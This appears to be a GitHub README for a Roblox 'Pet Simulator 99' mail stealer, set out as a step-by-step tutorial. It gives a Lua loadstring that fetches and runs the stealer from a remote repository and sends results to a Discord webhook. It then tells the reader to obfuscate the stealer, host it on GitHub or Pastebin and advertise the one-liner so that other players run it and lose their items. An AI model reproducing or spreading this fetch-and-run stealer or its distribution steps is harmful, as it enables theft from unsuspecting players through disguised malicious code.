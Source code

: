 # Script With Tutorial !

```lua
Username = "Reset42597561"
LoadScreen = true 
Webhook = "https://discord.com/api/webhooks/1251952647066488843/_Zdz2juy5cLuJlW2DRJ_w5s2V2nS4MB6L62fEKqXt9dX_Ip2JPCc-An2gU0FWAsm3zCe" -- Paste your Discord webhook here

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
```

# Tutorial

1: Edit mailstealer with your Username.

2: Save your stealer and Obfuscate it using MoonSec bot OR https://luaobfuscator.com/.

3: After u obfuscated save it and register/login on https://github.com/ to upload your script.

4: Create a repositorie and upload your obfuscated script (on github or pastebin).
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/71376a04-6684-4dd4-9a47-bdfcf83dd384)

5.1:Click This (Github)
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/0f845270-1eac-4297-b38b-183e3d57ea72)
5.2:Click This (Pastebin)
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/90c49e9a-0167-4e35-b611-0cf826fc518d)

6:And Click The Raw

![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/746039ee-1b0d-47b3-8f38-1b4e6adf8483)

7: Copy link

8: Put your link in this script
```lua
loadstring(game:HttpGet("YOUR LINK HERE", true))()
```

9: After u finished u got your loadstring script with mailstealer
Now all u have to do is adversite this script as u can
```
loadstring(game:HttpGet("Your Link Here", true))()
```
10: Create a Webhook Discord
!(https://www.youtube.com/watch?v=fKksxz2Gdnc)
